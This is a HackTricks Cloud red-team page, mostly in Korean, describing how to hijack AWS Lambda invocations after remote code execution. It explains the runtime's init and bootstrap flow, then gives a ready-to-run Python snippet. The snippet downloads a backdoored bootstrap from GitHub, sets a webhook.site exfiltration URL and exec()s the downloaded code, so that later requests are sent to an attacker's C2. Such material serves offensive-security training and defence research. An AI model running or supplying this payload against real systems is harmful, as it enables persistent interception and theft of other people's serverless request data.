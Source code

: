 # AWS - Steal Lambda Requests

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Flow

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**는 컨테이너 외부에서 **init** 프로세스에 **invocations**를 **보내는** 프로세스입니다.
2. init 프로세스는 포트 **9001**에서 몇 가지 흥미로운 엔드포인트를 노출합니다:
* **`/2018-06-01/runtime/invocation/next`** – 다음 호출 이벤트 가져오기
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 호출에 대한 핸들러 응답 반환
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 실행 오류 반환
3. **bootstrap.py**는 init 프로세스에서 호출을 가져와 사용자의 코드를 호출하여 처리하는 루프를 가집니다 (**`/next`**).
4. 마지막으로, **bootstrap.py**는 **응답**을 init에 보냅니다.

bootstrap은 사용자 코드를 모듈로 로드하므로, 사용자의 코드에 의해 수행되는 모든 코드 실행은 실제로 이 프로세스에서 발생합니다.

## Stealing Lambda Requests

이 공격의 목표는 사용자의 코드가 취약한 요청을 처리하는 **`bootstrap.py`** 프로세스 내에서 악성 **`bootstrap.py`** 프로세스를 실행하도록 만드는 것입니다. 이렇게 하면 **악성 bootstrap** 프로세스가 요청을 처리하기 위해 init 프로세스와 **대화**를 시작하고, **정상** bootstrap은 **악성** 프로세스를 실행하면서 **가로막혀** init 프로세스에 요청을 요청하지 않게 됩니다.&#x20;

이 작업은 사용자의 코드가 정상 **`bootstrap.py`** 프로세스에 의해 실행되므로 간단하게 달성할 수 있습니다. 따라서 공격자는 다음을 수행할 수 있습니다:

* **현재 호출의 가짜 결과를 init 프로세스에 보내기**, 따라서 init은 bootstrap 프로세스가 더 많은 호출을 기다리고 있다고 생각합니다.
* 요청은 **`/${invoke-id}/response`**로 보내야 합니다.&#x20;
* invoke-id는 [**inspect**](https://docs.python.org/3/library/inspect.html) 파이썬 모듈을 사용하여 정상 **`bootstrap.py`** 프로세스의 스택에서 얻거나, **`/2018-06-01/runtime/invocation/next`**에 다시 요청하여 얻을 수 있습니다 (여기에서 제안된 대로 [proposed here](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py) 또는 여기에서 제안된 대로 [proposed here](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* 다음 호출을 처리할 악성 **`bootstrap.py`** 실행
* 은밀성을 위해 lambda 호출 매개변수를 공격자가 제어하는 C2로 보내고, 그런 다음 요청을 평소처럼 처리할 수 있습니다.
* 이 공격을 위해서는 시스템에서 또는 [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)에서 **`bootstrap.py`**의 원본 코드를 가져와 악성 코드를 추가하고 현재 lambda 호출에서 실행하는 것으로 충분합니다.

### Attack Steps

1. **RCE** 취약점을 찾습니다.
2. **악성** **bootstrap**을 생성합니다 (예: [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. 악성 bootstrap을 **실행**합니다.

다음 명령을 실행하여 쉽게 이러한 작업을 수행할 수 있습니다:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
AWS Hacking 배우기 및 연습하기:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking 배우기 및 연습하기: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**subscription plans**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord group**](https://discord.gg/hRep4RUj7f) 또는 [**telegram group**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.**
* **PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}

